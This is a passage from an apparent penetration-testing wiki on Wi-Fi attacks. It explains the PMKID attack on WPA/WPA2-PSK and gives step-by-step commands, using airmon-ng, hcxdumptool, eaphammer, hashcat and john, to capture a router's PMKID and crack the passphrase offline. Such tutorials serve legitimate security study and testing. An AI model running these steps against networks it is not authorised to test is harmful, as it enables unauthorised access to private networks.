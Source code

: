 ### **WEP**

So broken and disappeared that I am not going to talk about it. Just know that _**airgeddon**_ have a WEP option called "All-in-One" to attack this kind of protection. More tools offer similar options.

![](<../../.gitbook/assets/image (125).png>)

### WPA/WPA2 PSK

#### PMKID

In 2018 hashcat authors [disclosed](https://hashcat.net/forum/thread-7717.html) a new type of attack which not only relies **on one single packet**, but it doesn’t require any clients to be connected to our target AP but just communication between the attacker and the AP.

It turns out that **a lot** of modern routers append an **optional field** at the end of the **first EAPOL** frame sent by the AP itself when someone is associating, the so called `Robust Security Network`, which includes something called `PMKID`

As explained in the original post, the **PMKID** is derived by using data which is known to us:

```
PMKID = HMAC-SHA1-128(PMK, "PMK Name" | MAC_AP | MAC_STA)
```

**Since the “PMK Name” string is constant, we know both the BSSID of the AP and the station and the `PMK` is the same one obtained from a full 4-way handshake**, this is all hashcat needs in order to crack the PSK and recover the passphrase!\
Description obtained from [here](https://www.evilsocket.net/2019/02/13/Pwning-WiFi-networks-with-bettercap-and-the-PMKID-client-less-attack/).

To **gather** this information and **bruteforce** locally the password you can do:

```bash
airmon-ng check kill
airmon-ng start wlan0
git clone https://github.com/ZerBea/hcxdumptool.git; cd hcxdumptool; make; make install
hcxdumptool -o /tmp/attack.pcap -i wlan0mon --enable_status=1
```

```bash
#You can also obtains PMKIDs using eaphammer
./eaphammer --pmkid --interface wlan0 --channel 11 --bssid 70:4C:A5:F8:9A:C1
```

The **PMKIDs captured** will be shown in the **console** and also **saved** inside \_ **/tmp/attack.pcap**\_\
Now, convert the capture to **hashcat/john** format and crack it:

```bash
hcxtools/hcxpcaptool -z hashes.txt /tmp/attack.pcapng
hashcat -m 16800 --force hashes.txt /usr/share/wordlists/rockyou.txt
john hashes.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

Please note the the format of a correct hash contains **4 parts**, like: _4017733ca8db33a1479196c2415173beb808d7b83cfaa4a6a9a5aae7\*566f6461666f6e65436f6e6e6563743034383131343838_\
\_\_If yours **only** contains **3 parts**, then, it is **invalid** (the PMKID capture wasn't valid).
